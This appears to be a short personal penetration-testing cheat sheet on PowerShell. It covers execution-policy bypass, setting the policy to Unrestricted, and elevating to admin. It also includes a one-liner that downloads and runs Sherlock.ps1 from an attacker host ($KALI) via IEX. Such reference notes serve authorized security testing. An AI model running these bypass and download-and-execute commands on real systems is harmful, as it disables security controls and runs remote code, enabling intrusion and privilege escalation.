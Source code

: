 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

[[rlwrap]]

#### Execution bypass
```powershell - windows
powershell -ep bypass
```

If shell gets stuck here, you can still run PowerShell files like this:

```powershell - windows
powershell -ep bypass .\PowerUp.ps1
```

### SET EXECUTION ON

#### 1st method
```powershell - windows
powershell Get-ExecutionPolicy
```

```powershell - windows
powershell Set-ExecutionPolicy Unrestricted
```

```powershell - windows
powershell Get-ExecutionPolicy
```

#### 2nd method
```powershell - windows
powershell Get-ExecutionPolicy -Scope CurrentUser
```

```powershell - windows
powershell Set-ExecutionPolicy unrestricted -Scope CurrentUser
```

```powershell - windows
powershell Get-ExecutionPolicy -Scope CurrentUser
```

#### Download and execute form CMD
```command prompt - windows
echo IEX(New-Object Net.WebClient).DownloadString('http://$KALI:80/Sherlock.ps1') | powershell -noprofile -
```

RDP - Run PowerShell as Admin
```powershell - windows
start-process powershell -verb runas
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
